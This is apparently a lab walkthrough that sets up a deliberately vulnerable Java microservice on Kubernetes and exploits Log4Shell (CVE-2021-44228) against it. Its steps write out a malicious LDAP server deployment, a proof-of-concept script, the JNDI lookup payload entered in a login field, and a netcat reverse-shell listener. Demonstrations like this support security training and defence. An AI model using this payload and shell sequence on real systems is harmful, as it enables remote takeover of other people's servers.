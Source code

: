 ### Deploy Log4j sample application

Deploying a sample Java microservice on namespace java-ms

```
kubectl create ns java-ms
```

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s.yaml -n java-ms  
```

Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Make sure the application is up and running.
![](https://i.imgur.com/615Fooi.png)

### Exploiting Log4j vulnerability

**Step 1:** Deploying malicious ldap server on namespace java-ms

```
kubectl apply -f https://raw.githubusercontent.com/accuknox/samples/main/log4j-demo/k8s-ldap.yaml -n java-ms
```

Check pods and services running

```
kubectl get po,svc -n java-ms
```

Output:

```
NAME                           READY   STATUS    RESTARTS   AGE
pod/java-ms-56b9c47579-8k2xc   1/1     Running   0          6m48s
pod/nc-pod-679c75d5b7-hcwh8    1/1     Running   0          104s

NAME                  TYPE           CLUSTER-IP     EXTERNAL-IP    PORT(S)                                        AGE
service/java-ms-svc   LoadBalancer   10.88.9.132    34.136.7.141   80:30753/TCP                                   7m16s
service/nc-svc        LoadBalancer   10.88.13.152   34.68.190.28   4444:31515/TCP,8000:31247/TCP,1389:31121/TCP   2m28s
```

**Step 2:** Execute into the LDAP server pod

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Note: Change nc-pod-679c75d5b7-hcwh8 to your pod name.

**Step 3:** Run command inside the pod

Note: userip → external IP of the nc-svc

```
python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444
```

Note: Replace 34.68.190.28 with your external IP of the service nc-svc

Output:

```
root@nc-pod-679c75d5b7-hcwh8:/poc# python3 poc.py --userip 34.68.190.28 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://34.68.190.28:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

**Step 4:** Open another terminal and execute into the netcat pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell connection

Note: Here we are using the same pod for the LDAP server and netcat

```
kubectl exec -it nc-pod-679c75d5b7-hcwh8 -n java-ms -- bash
```

Run the below command inside the pod nc-pod-679c75d5b7-4gkjl to listen for reverse shell

```
nc -lvnp 4444
```

Output:

```
root@nc-pod-679c75d5b7-4gkjl:/poc# nc -lvnp 4444
Listening on 0.0.0.0 4444
```

**Step 5:** Get external IP to surf the application:

```
kubectl -n java-ms get service java-ms-svc | awk '{print $4}'
```

Type ${jndi:ldap://34.68.190.28:1389/a} in username field and click Login
![](https://i.imgur.com/l6gv5VO.png)

Note: 34.68.190.28 replace with your nc-svc external IP

**Step 6:** Check netcat pod `nc-pod-679c75d5b7-4gkjl`. You will get a reverse shell to java pod.
![](https://i.imgur.com/l6gv5VO.png)

Note: Try hostname command, you can see hostname is the name of the java microservice pod.

Now we got the reverse shell to the java microservice pod from the netcat pod using log4j vulnerability.


